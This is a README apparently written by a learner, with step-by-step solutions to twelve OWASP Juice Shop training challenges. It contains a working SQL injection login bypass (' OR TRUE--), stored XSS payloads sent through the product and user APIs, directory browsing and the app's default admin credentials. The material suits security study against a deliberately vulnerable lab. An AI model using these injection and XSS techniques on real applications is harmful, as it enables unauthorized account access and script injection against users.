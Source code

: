 # OWASP-juice-shop-solutions
This repo holds my solutions for the OWASP Juice Shop challenges
## 1. Confidential Document
Navigate to the "About Us" page. There is a link in the middle of the paragraph that is highlighted green. Click that link and you will be redirected to `localhost:3000/ftp/legal.md`. We want to access the content in this file's parent directory. This can be easily accomplished by changing the URL to `localhost:3000/ftp`. Open the `acquisitions.md` file to complete the challenge.
## 2. Exposed Metrics
The linked documentation for prometheus mentions a directory called `/metrics` as the standard endpoint. Simply naviagte to `localhost:3000/metrics` to reveal metric information and complete the challenge.
## 3. Missing Encoding
Inspect the broken image. Find the src link: 
```
http://localhost:3000/assets/public/images/uploads/😼-#zatschi-#whoneedsfourlegs-1572600969477.jpg
```
Visit this link in your browser. Then, check the Network tab. It will show that the actual visited link reads: 
```
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-
``` 
which is everything up until the first `#` symbol. The website can render unencoded pound signs, but your browser cannot. Encode each `#` as `%23` to get the solution URL: 
```
http://localhost:3000/assets/public/images/uploads/😼-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg
```
## 4. Web3 Sandbox
Search for `sandbox` in main.js to reveal the path:
```
localhost:3000/#/web3-sandbox
```
Navigating to this URL solves the challenge.
## 5. Login Admin
For this challenge, a SQL injection attack must be used to login without the right credentials. A common approach for these problems is to enter quotes `'` to manipulate the sql query string. Enter `'` as the username and any value as the password and then click login. Inspect the Network tab to see how the client interpreted this login. You should see a line in the response like this:
```
"sql": "SELECT * FROM Users WHERE email = ''' AND password = '098f6bc*****************' AND deletedAt IS NULL"
```
This produces a sqlite compile error because there is an unexpected quote within the query. In order to login, we need the query to return at least one record. This can be accomplished by adding a clause that always evaluates to true, like: `email = '' OR TRUE`. This is close to the final solution but there is still an error with the quote formatting:
```
"sql": "SELECT * FROM Users WHERE email = '' OR TRUE' AND password = '098f6bc*****************' AND deletedAt IS NULL"
```

 this is resolved by commenting out the rest of the internal code by inputting an email as:
```
' OR TRUE--
```
Now the full query reads as:
```
"sql": "SELECT * FROM Users WHERE email = '' OR TRUE--' AND password = '098f6bc*****************' AND deletedAt IS NULL"
```
which is effectively:
```
"sql": "SELECT * FROM Users WHERE email = '' OR TRUE"
```
Since this query always return TRUE, the database will return every record. Since the application expects only one user to be returned, it will automatically take the first record from the result set. In this case it will be the admin login. The first user is often the admin because user IDs are usually incremented from 1 and admin accounts are often created first in a database.
## 6. Admin Section
Navigate to this URL:
```
http://localhost:3000/#/administration
```
## 7. Password Strength
email: `admin@juice-sh.op`
password: `admin123`

## 8. View Basket
Change the `bid` to 1 in developer tools -> Session settings. Navigate away from basket and then back to basket.
## 9. Empty User Registration
To solve this challenge you have to modify the client-side javascript. Inspect the "Register" button on the registration page. Find this element in the code:
```
<button _ngcontent-jwc-c32="" type="submit" id="registerButton" mat-raised-button="" color="primary" aria-label="Button to complete the registration" class="mat-focus-indicator mat-raised-button mat-button-base mat-primary mat-button-disabled" disabled="true"><span class="mat-button-wrapper"><i _ngcontent-jwc-c32="" class="material-icons"> person_add </i> Register </span><span matripple="" class="mat-ripple mat-button-ripple"></span><span class="mat-button-focus-overlay"></span></button>
```
Delete the portion that says `disabled="true"` then click "Register" on the UI.
## 10. Five-Star Feedback
This solution requires that you have completed number 6. Login Admin and number 7. Admin Section. Login as the admin and navigate to the admin section (`http://localhost:3000/#/administration`). Click the trash can icon next to the one five-star review.
## 11. API Only XSS
To find potential vulnerabilities for an API XSS attack, you can search `main.js` for vulnerable functions like `bypassSecurityTrustHtml`. There are a few places in the code where this function is found. One of those places is in the Product Description:
```
trustProductDescription(e) {
 for (let o = 0; o < e.length; o++)
 e[o].description = this.sanitizer.bypassSecurityTrustHtml(e[o].description)
}
```
This tells us that we should try to replace a product description with the XSS attack payload. Then, when a user opens the product information on the UI, they will get an XSS notification.
 Determining the exact format of the payload takes some tinkering around with postman and the API. Ultimately, you will need to identify the link for a specific product, for example, the link to the Banana Juice is:
```
http://localhost:3000/api/Products/6
```
Use a `PUT` request to update the description in the format: 
```
{"description":"<iframe src=\"javascript:alert(`xss`)\">"}
```
Note that the inner quotes are escaped. After sending the request, refresh the website and the challenge will be solved. Click on the Banana Juice product to see the attack in action.
## 12. Client-side XSS Protection
Similar to the last challenge, this attack involves finding vulnerabilities for an API XSS attack. In the last problem, we found that the API uses `bypassSecurityTrustHtml` for the product description. Upon further investigation, this function is also seen for handling users emails:
```
findAllUsers() {
   this.userService.find().subscribe(e => {
       this.userDataSource = e,
       this.userDataSourceHidden = e;
       for (const o of this.userDataSource)
           o.email = this.sanitizer.bypassSecurityTrustHtml(`<span class="${this.doesUserHaveAnActiveSession(o) ? "confirmation" : "error"}">${o.email}</span>`);
       this.userDataSource = new d.by(this.userDataSource),
       this.userDataSource.paginator = this.paginatorUsers,
       this.resultsLengthUser = e.length
   }
   , e => {
       this.error = e,
       console.log(this.error)
   }
   )
}
```
Create a new account with the malicious payload as the user's email. The application sanitizes emails in the client-side but not in the backend. Therefore, the client-side XSS protection can by by-passed by submitting a POST request to http://localhost:3000/api/Users of the form:
```
{"email": "<iframe src=\"javascript:alert(`xss`)\">", "password":""}
```
Note that the inside quotes are escaped.

